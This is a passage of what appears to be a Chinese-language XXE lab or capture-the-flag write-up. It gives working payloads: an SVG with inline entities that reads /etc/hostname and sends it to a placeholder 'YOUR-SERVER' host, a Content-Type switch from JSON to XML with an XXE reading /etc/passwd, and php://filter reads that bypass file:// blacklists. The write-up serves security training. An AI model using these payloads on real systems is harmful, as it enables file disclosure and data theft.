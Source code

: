 **解题步骤**：

1. **构造恶意SVG**（SVG支持内联DTD）：

   ```
   <svg xmlns="http://www.w3.org/2000/svg" width="300" height="300">
      <!ENTITY % file SYSTEM "file:///etc/hostname">
      <!ENTITY % oob "<!ENTITY &#x25; exfil SYSTEM 'http://YOUR-SERVER/?leak=%file;'>">
      %oob;
      %exfil;
   </svg>
   ```

2. **上传SVG**并监听Burp Collaborator，捕获外带请求。

**关键点**：

- **SVG的XML特性**：允许内联DTD，绕过常规文件上传限制。
- **无需外部DTD**：直接内联参数实体完成攻击。

### 6. 修改**Content-Type** | JSON -> XML

**目标**

当请求头为 `Content-Type: application/json` 时，通过修改为 `application/xml` 触发XXE。

**解题步骤**

1. 拦截JSON请求，修改请求头：

   ```
   Content-Type: application/xml
   ```

2. 插入XXE Payload：

   ```
   <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
   <data>&xxe;</data>
   ```

**关键点**

- **Content-Type 切换**：某些后端根据请求头选择解析器，JSON接口可能仍处理XML。
- **漏洞本质**：服务端未严格校验数据格式。

### 7. **协议替代**：`php://filter` 绕过 `file://` 黑名单

1. **基本绕过**：

   ```
   // 当file://被过滤时
   include('php://filter/resource=/etc/passwd');
   ```

2. **Base64编码读取**：

   ```
   // 读取文件内容并以base64编码形式返回
   file_get_contents('php://filter/read=convert.base64-encode/resource=/etc/passwd');
   ```
